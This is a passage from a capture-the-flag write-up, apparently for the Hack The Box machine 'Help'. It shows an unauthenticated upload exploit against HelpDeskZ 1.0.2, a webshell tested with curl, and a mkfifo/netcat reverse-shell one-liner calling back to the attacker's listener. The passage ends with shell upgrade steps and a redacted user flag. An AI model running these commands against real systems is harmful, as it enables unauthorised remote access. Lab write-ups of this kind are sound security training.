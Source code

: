 We run the exploit and find the obfuscated <mark>webshell.php</mark>.

{% highlight shell %}
┌──(iwo㉿kali)-[~/boxes/help/payloads]
└─$ python3 40300.py http://help.htb/support/uploads/tickets/ webshell.php
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
found!
http://help.htb/support/uploads/tickets/26ffa6665e2ed9d76a93cba7aa9db84d.php
{% endhighlight %}

Testing the webshell using <mark>curl</mark>.

{% highlight shell %}
┌──(iwo㉿kali)-[~/boxes/help/payloads]
└─$ curl -s http://help.htb/support/uploads/tickets/26ffa6665e2ed9d76a93cba7aa9db84d.php?cmd=id
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
{% endhighlight %}

It works!

#### Getting a shell

Reverse shell as the user <mark>help</mark>.

{% highlight shell %}
┌──(iwo㉿kali)-[~/boxes/help/payloads]
└─$ curl -s 'http://help.htb/support/uploads/tickets/26ffa6665e2ed9d76a93cba7aa9db84d.php?cmd=rm+/tmp/f;mkfifo+/tmp/f;cat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.17+1234+>/tmp/f'
{% endhighlight %}

Upgrading the shell and retrieving the user flag.

{% highlight shell %}
┌──(iwo㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.121] 60540
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
help@help:/var/www/html/support/uploads/tickets$ ^Z
zsh: suspended  nc -lvnp 1234
                                                                                                                         
┌──(iwo㉿kali)-[~]
└─$ stty raw -echo; fg
[2]  - continued  nc -lvnp 1234
                               reset
reset: unknown terminal type unknown
Terminal type? screen
{% endhighlight %}

{% highlight shell %}
help@help:/home/help$ cat user.txt
7f1f3f**************************
{% endhighlight %}
